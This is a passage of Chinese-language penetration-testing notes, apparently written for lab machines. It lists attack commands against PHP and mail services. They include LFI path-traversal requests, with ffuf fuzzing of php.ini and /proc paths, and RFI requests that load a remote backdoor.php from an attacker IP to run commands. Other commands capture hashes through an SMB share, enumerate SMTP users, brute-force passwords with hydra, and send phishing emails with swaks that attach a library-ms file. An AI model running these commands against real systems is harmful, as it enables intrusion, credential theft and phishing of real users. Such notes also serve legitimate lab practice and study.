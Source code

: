 也可以查看php.ini
GET news.php?file=../../../../../../../etc/php/7.4/apache2/php.ini
如果版本不对的话可以通过ffuf 来爆破版本
ffuf -w <(seq 0 10):FUZZ1 -w <(seq 0 10):FUZZ2  -u http://megahosting.htb/news.php?file=../../../../../../../etc/php/FUZZ1.FUZZ2/apache2/php.ini -ac

或者是/proc/self/cmdline相关的/proc/FUZZ/cmdline
ffuf -w <(seq 0 65535) -u http://megahosting.htb/news.php?file=../../../../../../../proc/FUZZ/cmdline -ac 

如果碰到文件没有显示的话，view page source或者是放到burp suite里加载看看，也许不一定是没显示
另外碰到特定版本的话试试版本号+配置文件去搜索


## RFI
PHP架构的话可以试试 (http:// 或者ftp:// )
GET /meteor/index.php?page=http://$IP/backdoor.php&cmd=whoami

如果是windows的话，在不能通过Responder拿到哈希的情况下，说明用户可能是低权限账户在跑，那就试试
GET /meteor/index.php?page=\\$IP\share\backdoor.php&cmd=whoami
impacket-smbserver share ./ -smb2support

如果没有办法RFI，可以试试抓哈希
GET /meteor/index.php?page=\\$IP\share\test.php
GET /meteor/index.php?page=//$IP/share/test.php

## SMTP 
用户枚举
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
密码爆破
hydra -L smtp_users.txt -P dict.txt -s 143 -e ns -t 16 imap://$IP

## 钓鱼邮件交互
swaks --from it@postfish.off --to brian.moore@postfish.off --server $IP  --body @emailbody.txt --header "Subject: postfish.off Password Reset Link"
如果需要认证的话
swaks --from maildmz@relia.com --to jim@relia.com --server 192.168.174.189:587 --auth LOGIN --body @emailbody.txt --header "Subject: automatic_configuration Script" --attach @config.library-ms --suppress-data -ap
人工交互的话使用telnet $IP 110 或者是 telnet $IP 25来进行交互，可能需要等待一段时间来响应
此外，如果有SMTP的管理服务的话，例如JAMES pop3d 2.3.2
可以通过 nc $IP 4555来进行交互
通过修改密码来获得25或者110端口的账户访问权限
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
